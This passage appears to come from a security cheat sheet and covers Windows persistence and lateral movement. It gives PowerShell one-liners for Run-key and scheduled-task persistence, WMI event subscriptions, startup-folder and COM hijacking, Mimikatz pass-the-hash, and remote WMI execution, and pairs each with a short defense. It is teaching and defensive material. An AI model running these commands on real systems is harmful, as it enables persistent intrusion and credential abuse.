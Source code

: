 
### **3. Persistence**  
#### **Registry Run Key**  
```powershell  
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malware.exe"  
```  
- **Defense**: Monitor registry Run keys with Sysinternals `Autoruns`.  

#### **Scheduled Task**  
```powershell  
schtasks /create /tn "MaliciousTask" /tr "C:\malware.exe" /sc hourly /mo 1  
```  
- **Defense**: Audit tasks with `schtasks /query`.  

#### **WMI Event Subscription**  
```powershell  
$FilterArgs = @{Name='MaliciousFilter'; EventNameSpace='root\CimV2'; QueryLanguage='WQL'; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"}; $Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs  
```  
- **Defense**: Disable WMI if unused.  

#### **Startup Folder**  
```powershell  
Copy-Item C:\malware.exe "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\"  
```  
- **Defense**: Use AppLocker to block untrusted executables.  

#### **ShadowPad-like COM Hijacking**  
```powershell  
New-Item -Path "HKLM:\Software\Classes\CLSID\{DEADBEEF-...}" -Force  
```  
- **Defense**: Monitor COM object registrations.  

---

### **4. Lateral Movement**  
#### **Pass-the-Hash**  
```powershell  
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:corp /ntlm:HASH /run:powershell.exe"'  
```  
- **Defense**: Enforce **Credential Guard** and disable NTLM.  

#### **WMI Remote Execution**  
```powershell  
Invoke-WmiMethod -Class Win32_Process -ComputerName TARGET -Name Create -ArgumentList "cmd.exe /c malware.exe"  
```  
- **Defense**: Restrict WMI access via firewall rules.  

#### **PSRemoting**  
```powershell  
Enter-PSSession -ComputerName TARGET -Credential (Get-Credential)  
```  
- **Defense**: Disable PSRemoting with `Disable-PSRemoting`.  
